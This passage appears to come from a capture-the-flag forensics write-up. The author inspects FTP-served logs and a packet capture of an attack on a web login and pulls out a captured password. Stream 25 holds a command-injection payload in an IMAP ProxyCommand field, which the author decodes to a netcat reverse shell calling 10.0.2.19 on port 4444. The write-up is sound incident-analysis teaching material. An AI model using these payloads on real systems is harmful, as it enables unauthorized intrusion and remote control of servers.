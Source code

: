 There's nothing in `ib01c03`, presumably because they haven't started
investigating the hacking into the Mantis Bug Track site hosted there.
Inside `ib01c01`, there's three files:



    ftp> ls
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    -r--rw-r--    1 1005     1000        10427 Dec 10  2018 ib01c01.access.log
    -rw-r--r--    1 1000     1000       835084 Dec 10  2018 ib01c01_incident.pcap
    -r--rw-r--    1 1005     1000          173 Dec 11  2018 notes.txt
    226 Directory send OK.



I'll download the files and take a look. `notes.txt`:



    root@kali# cat notes.txt 
    After checking the logs and the network capture, all points to that the attacker knows valid credentials and abused a recently discovered vuln to gain access to the server!



Looking through the `pcap` in `wireshark`, I'll find a few interesting
tcp streams. The most important is 20, where the attacker is visiting
`www.pwnhats.htb` and sends a post to login with the password
"GetYouAH4t!". I'll add that to my password list.

Stream 25 is also interesting. It's another POST request. One of the
items in the POST is this:



    Content-Disposition: form-data; name="PS_SAV_IMAP_URL"

    x -oProxyCommand=`echo$IFS$()bWtmaWZvIC90bXAvb3NmaWZ0bTsgbmMgMTAuMC4yLjE5IDQ0NDQgMDwvdG1wL29zZmlmdG0gfCAvYmluL3NoID4vdG1wL29zZmlmdG0gMj4mMTsgcm0gL3RtcC9vc2ZpZnRt|base64$IFS$()-d|bash`}
    --_Part_913_1903200859_125024680
    Content-Disposition: form-data; name="PS_SAV_IMAP_PORT"

    143



It's hard to know for sure what exploit this is targeting, but the
`oProxyCommand` contains a string that looks obviously malicious:



    `echo$IFS$()bWtmaWZvIC90bXAvb3NmaWZ0bTsgbmMgMTAuMC4yLjE5IDQ0NDQgMDwvdG1wL29zZmlmdG0gfCAvYmluL3NoID4vdG1wL29zZmlmdG0gMj4mMTsgcm0gL3RtcC9vc2ZpZnRt|base64$IFS$()-d|bash`



It's in backticks, which means the shell will execute this, and it
`echo` a base64 string into `base64 -d` and then into `bash`. That
string decodes to a standard reverse shell:



    mkfifo /tmp/osfiftm; nc 10.0.2.19 4444 0</tmp/osfiftm | /bin/sh >/tmp/osfiftm 2>&1; rm /tmp/osfiftm
